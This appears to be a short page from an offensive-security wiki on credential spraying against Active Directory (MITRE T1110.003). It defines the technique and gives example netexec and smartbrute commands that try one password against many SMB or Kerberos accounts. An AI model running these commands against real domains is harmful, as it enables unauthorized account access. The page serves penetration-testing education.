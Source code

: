 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1110.003
authors: ShutdownRepo, mpgn, sckdev
category: ad
---
```


# Spraying

Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. This technique is just [credential guessing](guessing) but "sprayed" (i.e. against multiple accounts) and tools that can do [credential guessing](guessing) can usually do spraying.

```bash
# netexec example
nxc smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC" 
```

> [!TIP]
> Read the ["Password guessing"](guessing) article for more insight.